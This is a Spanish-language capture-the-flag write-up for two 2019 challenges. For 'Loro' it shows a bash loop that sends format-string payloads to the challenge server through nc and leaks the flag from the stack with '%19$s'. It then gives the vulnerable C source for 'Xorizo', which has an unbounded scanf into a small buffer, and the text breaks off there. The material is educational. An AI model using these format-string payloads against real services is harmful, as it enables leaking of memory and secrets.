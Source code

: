 #### Loro (100pts)

##### Descripción:

Hemos contratado a un loro para que gestione las flags. Lo tenemos viviendo en el puerto 2323 

##### Solución:

Nos conectamos, y vemos que la aplicación imprime por pantalla aquello que escribimos. Esto podría ser vulnerable a `format strings` y abusar de los especificadores de formato para extraer información del stack. Para ello, se ha hecho el siguiente script, que nos permitira realizar una serie de iteraciones hasta obtener la flag, que se encontrará almacenada en alguna dirección del stack:

```
for i in {1..30}; do echo $i; echo -e "%$i\$s\n" | nc ctf.alphasec.xyz 2323; echo; done;
```
una vez que ya sabemos el offset, podemos introducir lo siguiente y obtendremos la flag:

`%19$s`

<img src="https://raw.githubusercontent.com/M3moryLeaks/ctf/master/2019/UAH/Exploiting/Images/loro.png" width=350>


**Flag:** flag{passwordseña_dude}

#### Xorizo (125pts)

##### Descripción:

Hicimos el programa definitivo para superar estructuras discretas, pero al poner la contraseña, no conseguimos que descifre el secreto. La contraseña es "estructurasdiscretasjeje", pero al introducirla nos saca algo incomprensible...

Este es el código:

```c
void main(){

char pass[24] = "xxxxxxxxxxxxxxxxxxxxxxxx";
char x[10];

char flag[24] = ...;

char* res = malloc(24);

scanf("%s", x);
printf("%s\n", pass);

int i;
for(i = 0; i < 24; i++)
res = pass ^ flag;

printf("%s\n", res);


}
```
